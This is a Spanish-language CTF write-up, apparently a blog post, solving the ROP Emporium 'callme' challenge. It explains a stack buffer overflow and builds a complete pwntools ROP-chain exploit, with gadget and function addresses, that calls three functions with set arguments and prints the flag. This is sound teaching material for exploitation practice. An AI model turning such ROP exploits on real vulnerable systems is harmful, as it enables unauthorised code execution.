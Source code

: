 ```yaml
---
layout: post
title: ROP emporium callme - Llamando multiples funciones 
author: c4rta
date: 2023-04-24
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, ROP]
image: /assets/img/callme/SUSwaifu.gif
---
```

Para resolver este desafio usaremos ROP para llamar multiples funciones con multiples argumentos en el orden correcto
{:.lead}

## Analisis

![](/assets/img/callme/1.png)

No tiene canary, PIE, pero tiene NX, asi que no podemos ejecutar codigo en el stack.

Al ver la funcion main, lo unico interesante es el llamado a la funcion ```pwnme```

![](/assets/img/callme/2.png)

Una vez en esa funcion, podemos ver la vulnerabilidad:

![](/assets/img/callme/3.png)

Vemos que esta intentando escribir ```0x200``` bytes (512 en decimal) de la entrada estandar (stdin), dado un buffer, pero... Te voy a demostrar por que es vulnerable.

Cuando se hace el llamado a ```read()```, se hace con esta estructura:

```c
ssize_t read(int fd, void *buf, size_t count);
```

El primer argumento ```fd```, se le conoce como ```file decriptor```, que en palabras simples, se usa para crear una entrada para un archivo, esa entrada se identifica con un numero unico

El segundo argumento es un puntero a un buffer, y este buffer se esta creando aca:

![](/assets/img/callme/4.png)

Podemos ver que se esta inicializando un buffer de ```0x20``` bytes (32 en decimal) con el nombre de ```buf```

El tercer argumento es la cantidad de bytes que va a escribir en ese buffer, que son ```0x200```.

Entonces representando la funcion con los valores, quedaria asi:

```c
ssize_t read(0, 32, 512);
```

Esta tratando de escribir ```512``` bytes en ```32```, y como no se esta limitando la cantidad de bytes ingresados, ese buffer de ```32``` bytes va a petar, es la clasica vulnerabilidad buffer overflow, por que se esta sobrepasando la cantidad del buffer, que son 32.

Al mostrar todas las funciones en radare, tenemos que existe una funcion que se llama ```usefulFunction```:

![](/assets/img/callme/5.png)

Al mostrar el codigo de la funcion:

![](/assets/img/callme/6.png)

Nos damos cuenta que esta llamando a las funciones ```callme_three```, ```callme_two``` y ```callme_one```, y se estan llamando con los argumentos ```rdi```, ```rsi``` y ```rdx```.

Como curiosidad, si intentamos mostrar el codigo de una funcion de esas, no vamos a poder, sale algo como esto:

![](/assets/img/callme/7.png)

Y eso es por que las funciones ```callme_three```, ```callme_two``` y ```callme_one``` se encuetran en PLT que se esta cargando dinamicamente de ```libcallme.so```, entonces para poder verlas, tenemos que ejecutar el binario, me ire a gdb y pondre un breakpoint en el ```ret``` de la funcion main:

```
0x0000000000400897 <+80>:	ret
```

Y ahora si ya podemos ver su codigo, y lo mas relevante es que cuando se hace un llamado a ```callme_one```, los argumentos que se le pasan los compara con:

- 0xdeadbeefdeadbeef
- 0xcafebabecafebabe
- 0xd00df00dd00df00d

![](/assets/img/callme/8.png)

(en ```callme_three``` y ```callme_two``` es lo mismo)

Asi que ahora sabemos que debemos de llamar a ```callme_three```, ```callme_two``` y ```callme_one``` con los valores con los que se comparan los registros ```rdi```, ```rsi``` y ```rdx```

## Crafteando el exploit

Para saber el desplazamiento para llegar al RIP, podemos generar una cadena con ```pattern create 100``` y pasaresela al programa, despues podemos hacer ```pattern offset $rbp```:

![](/assets/img/callme/9.png)

Y al sumarle 8 bytes, y nos da 40

Asi va esta ahora:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

```

Como tenemos que escribir en rdi, rsi y rdx, debemos que buscar un gadget que nos permita hacer eso, usare ROPgadget con el comando:

```
ROPgadget --binary callme | grep 'pop rdi ; pop rsi ; pop rdx ; ret'
```

Y este nos funciona: ```0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret```

Asi va el exploit:

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)
```

Despues ocupamos las direcciones de callme_one y las demas, eso lo podemos hacer con el comando ```afl``` en radare:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)
```

Y por ultimo tenemos que mandar el payload en el orden correcto, primero el padding, luego el gadget, los valores de los argumentos y la funcion, asi queda el exploit completo

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)

args = argumento_1 + argumento_2 + argumento_3

payload = padding + gadget + args + callme_one
payload += gadget + args + callme_two
payload += gadget + args + callme_three

p.sendline(payload)
print(p.recvall().decode())
```

Y ya tenemos la flag

```
󰣇  c4rta /tmp/callme  python3 exploit.py
[+] Starting local process './callme': pid 15024
[+] Receiving all data: Done (172B)
[*] Process './callme' stopped with exit code 0 (pid 15024)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Eso ha sido todo, gracias por leer ❤
